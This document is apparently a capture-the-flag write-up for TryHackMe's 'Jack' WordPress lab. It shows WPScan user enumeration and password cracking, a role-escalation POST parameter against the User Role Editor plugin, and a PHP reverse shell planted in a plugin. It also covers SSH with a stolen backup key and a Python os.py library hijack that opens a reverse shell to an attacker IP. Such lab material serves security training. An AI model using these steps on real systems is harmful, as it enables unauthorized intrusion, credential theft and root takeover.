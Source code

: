 # [Jack](https://tryhackme.com/room/jack)

## Compromise a web server running Wordpress, obtain a low privileged user and escalate your privileges to root using a Python module.

# Deploy & Root

## Connect to our network and deploy this machine. Add jack.thm to /etc/hosts

### Gain initial access and obtain the user flag.

_Wpscan user enumeration, and don't use tools (ure_other_roles)_

1. Add the target domain to `/etc/hosts` file

![SCREEN01](https://github.com/user-attachments/assets/29ff46e9-08d5-4fa6-911e-e50d36a36885)

2. Enumerate WordPress users with `WPScan`
   - Found users are **jack**, **danny**, **wendy**

```bash
wpscan --url http://jack.thm --enumerate u
```

![SCREEN02](https://github.com/user-attachments/assets/b78ea81b-b7bb-405e-8f75-669679a1488f)

3. Crack the password
   - Wendy password is: **changelater**

```bash
wpscan --url http://jack.thm --passwords /root/Tools/wordlists/rockyou.txt --usernames jack,danny,wendy
```

![SCREEN03](https://github.com/user-attachments/assets/71bc527d-c9ed-47d6-ac3a-83668e95c879)

4. Wendy has limited privileges. Enumerate WordPress plugins to find potential vulnerabilities
   - The site uses **User Role Editor (version 4.24)**, which allows modification of user roles and capabilities

```bash
wpscan --url http://jack.thm --enumerate p --plugins-detection aggressive
```

![SCREEN04](https://github.com/user-attachments/assets/7059c1ae-83bc-40ec-8739-333bf4ecc73e)

5. Capture POST request to update profile at `http://jack.thm/wp-admin/profile.php` and add `&ure_other_roles=administrator` at the end

![SCREEN05](https://github.com/user-attachments/assets/758016d2-cd7a-4234-af9c-e1ea096416c2)

6. Now with administrative access go to the `http://jack.thm/wp-admin/plugin-editor.php` and add the [reverse shell payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) at the beggining of the script

```php
<?php
// Set Your IP and Port
$ip = '127.0.0.1';
$port = 4444;

// Open Connection on Your Machine
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

![SCREEN06](https://github.com/user-attachments/assets/8b18d458-fc6b-4257-bba7-e55fdf5e48f3)

7.On your attack machine, set up a listener to catch the reverse shell

```bash
nc -lvnp 4444
```

7. Activate the modified Akismet plugin by navigating to `http://jack.thm/wp-admin/plugins.php` and clicking "Activate" under Akismet

8. Get the user flag

```bash
cat /home/jack/user.txt
```
![SCREEN07](https://github.com/user-attachments/assets/964ce005-9fc1-466c-b821-f95ecd374e2c)

---

### Escalate your privileges to root. Whats the root flag?

_Python_

1. Upgrade to a more stable shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Read the `reminder.txt`

```bash
cat /home/jack/reminder.txt
```

![SCREEN08](https://github.com/user-attachments/assets/c6814e59-4550-4f5c-b651-82f7a62a5fab)

3. Check the backups directory `/var/backups` and get the `id_rsa`. Save it on our attack machine and use it to login as jack

```bash
ls -la /var/backups
cat /var/backups/id_rsa
```

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.144.140
```

4. Search for custom Python scripts that might be running with elevated privileges
   - There is `/opt/statuscheck/checker.py` which imports `os.py`

```bash
find / -name "*.py" -not -path "/usr/lib/*" -not -path "/etc/python*" 2>/dev/null

cat /opt/statuscheck/checker.py

locate os.py
```

![SCREEN09](https://github.com/user-attachments/assets/1317873d-a503-4146-b480-90dae43bdffc)

5. Start new listener on attack machine and add payload at the end of `os.py` file

```bash
nc -lvnp 5555
```

```bash
nano /usr/lib/python2.7/os.py
```

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.63.179",5555))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

![SCREEN10](https://github.com/user-attachments/assets/89ab75c1-0cf0-4666-9301-f8c3c8294f15)

6. Wait for shell and get the `root.txt` flag

```bash
cat /root/root.txt
```

![SCREEN11](https://github.com/user-attachments/assets/52ea374d-1a42-4692-96ad-a2912ce90878)
